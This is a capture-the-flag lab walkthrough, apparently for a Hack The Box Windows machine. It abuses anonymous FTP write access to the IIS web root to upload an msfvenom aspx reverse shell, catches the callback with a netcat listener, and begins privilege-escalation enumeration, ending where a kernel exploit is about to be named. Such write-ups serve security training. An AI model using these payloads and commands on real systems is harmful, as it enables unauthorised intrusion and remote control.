


<br />


<br />

OS -> Windows.

Difficulty -> Easy.

<br />

# Introduction:

<br />


<br />

# Enumeration:

<br />

We start by running the typical `nmap` scan to see which ports are open:

<br />

```bash
❯ nmap -p- 10.10.10.5 --open --min-rate 5000 -sS -T5 -Pn -n -sCV
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-07 12:52 CEST
Nmap scan report for 10.10.10.5
Host is up (0.042s latency).
Not shown: 65533 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 38.71 seconds
```

<br />

Open Ports:

- `Port 21` -> ftp

- `Port 80` -> http

<br />

## Http Enumeration: -> Port 80

<br />

When we access the website, the `IIS` default page is displayed:

<br />


<br />

Since this is the default `IIS` page, we can infer that the system behind the website is running `Windows`.

<br />

## Ftp Enumeration: -> Port 21 

<br />

As we see in the previous nmap scan, `anonymous` FTP login is allowed.

So we proceed to log into the server:

<br />

```bash
❯ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:theredp4nther): anonymous 
331 Anonymous access allowed, send identity (e-mail name) as password.
Password: 
230 User logged in.
Remote system type is Windows_NT.
```

<br />

Once in, we `enumerate` it to see if we can find something relevant:

<br />

```bash
ftp> ls
229 Entering Extended Passive Mode (|||49158|)
125 Data connection already open; Transfer starting.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```

<br />

This appears to be the typical `IIS` structure, with its `default` files and directories.

This strongly suggests the `FTP` server is directly `linked` to the web root directory.

So if we try to `upload` a simple txt `file` to the server, we should be able to access it via the website:

<br />

```bash
ftp> put testing.txt
local: testing.txt remote: testing.txt
229 Entering Extended Passive Mode (|||49160|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************|    47      685.05 KiB/s    --:-- ETA
226 Transfer complete.
47 bytes sent in 00:00 (1.12 KiB/s)
```

<br />

The file was successfully upload.

Now we can check if there is in the website too, adding "testing.txt" to the base URL:

<br />

```
http://10.10.10.5/testing.txt
```


<br />

This confirms that the FTP server has `write` permissions to the web `root` directory, opening the door for uploading `malicious` payloads such as web shells.

Windows servers typically execute two types of script `extensions`, asp and aspx, to test this one, we are going to use an `aspx` reverse shell created with `msfvenom`:

<br />

```bash
❯ msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=443 -f aspx -o reverse.aspx
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of aspx file: 2725 bytes
Saved as: reverse.aspx
```

<br />

Upload to the `FTP` server:

<br />

```bash
ftp> put reverse.aspx
local: reverse.aspx remote: reverse.aspx
229 Entering Extended Passive Mode (|||49163|)
125 Data connection already open; Transfer starting.
100% |******************************************************************************************************************************************|  2763       29.27 MiB/s    --:-- ETA
226 Transfer complete.
2763 bytes sent in 00:00 (64.56 KiB/s)
```

<br />

And execute it listing on the website with the following URL:

<br />

``` 
http://10.10.10.5/reverse.aspx
```

<br />

Check the listener:

<br />

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.5] 49164
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>whoami

iis apppool\web
```

<br />

Perfect! We have access to the `IIS` virtual account associated with the `system`.

<br />

```bash
c:\Users>dir

 Volume in drive C has no label.
 Volume Serial Number is 137F-3971

 Directory of c:\Users

18/03/2017  02:16 ��    <DIR>          .
18/03/2017  02:16 ��    <DIR>          ..
18/03/2017  02:16 ��    <DIR>          Administrator
17/03/2017  05:17 ��    <DIR>          babis
18/03/2017  02:06 ��    <DIR>          Classic .NET AppPool
14/07/2009  10:20 ��    <DIR>          Public
               0 File(s)              0 bytes
               6 Dir(s)   4.692.590.592 bytes free

c:\Users>cd babis

Access is denied.
```

<br />

But we don't have privileges to access `babis` home directory and list the user.txt, so we need to escalate privileges.

<br />

# Privilege Escalation: IIS virtual account -> NT AUTHORITY\SYSTEM 

<br />

One of the first things we should do after gaining access to a `Windows` system is to enumerate the system `information`:

<br />

```bash
c:\Users>systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ��
System Boot Time:          7/4/2025, 1:48:42 ��
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     3.071 MB
Available Physical Memory: 2.484 MB
Virtual Memory: Max Size:  6.141 MB
Virtual Memory: Available: 5.559 MB
Virtual Memory: In Use:    582 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              N/A
Hotfix(s):                 N/A
Network Card(s):           1 NIC(s) Installed.
                           [01]: Intel(R) PRO/1000 MT Network Connection
                                 Connection Name: Local Area Connection 4
                                 DHCP Enabled:    No
                                 IP address(es)
                                 [01]: 10.10.10.5
                                 [02]: fe80::f439:aafb:3036:7c2c
                                 [03]: dead:beef::d157:4032:3684:659c
                                 [04]: dead:beef::f439:aafb:3036:7c2c
```

<br />

The Windows version in use is quite `old`, and as we know, older versions are much more likely to contain `kernel` vulnerabilities.

Searching on google we found an interest db `exploit` to the `OS` version (6.1.7600 N/A Build 7600):

<br />



<br />
